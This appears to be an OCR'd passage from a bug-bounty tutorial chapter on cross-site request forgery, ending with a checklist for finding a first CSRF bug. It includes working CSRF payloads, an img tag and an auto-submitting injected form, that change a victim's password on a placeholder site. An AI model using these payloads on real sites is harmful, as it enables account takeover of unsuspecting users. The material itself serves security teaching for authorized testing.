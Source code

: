 ```<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">```
- In the malicious script, the attacker can include code that sends the CSRF payload:
```
<script>
 document.body.innerHTML += "
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>";
 document.getElementById("csrf-form").submit();
</script>
```

# Finding Your First CSRF!
Armed with this knowledge about CSRF bugs, bypassing CSRF protection, and escalating CSRF vulnerabilities, you’re now ready to look for your first CSRF vulnerability! 
- Hop on a bug bounty program and find your first CSRF by following the steps covered in this chapter:
1. Spot the state-changing actions on the application and keep a note on their locations and functionality.
2. Check these functionalities for CSRF protection. If you can’t spot any protections, you might have found a vulnerability!
3. If any CSRF protection mechanisms are present, try to bypass the protection by using the protection-bypass techniques.
4. Confirm the vulnerability by crafting a malicious HTML page and visiting that page to see if the action has executed.
5. Think of strategies for delivering your payload to end users.
6. Draft your first CSRF report!
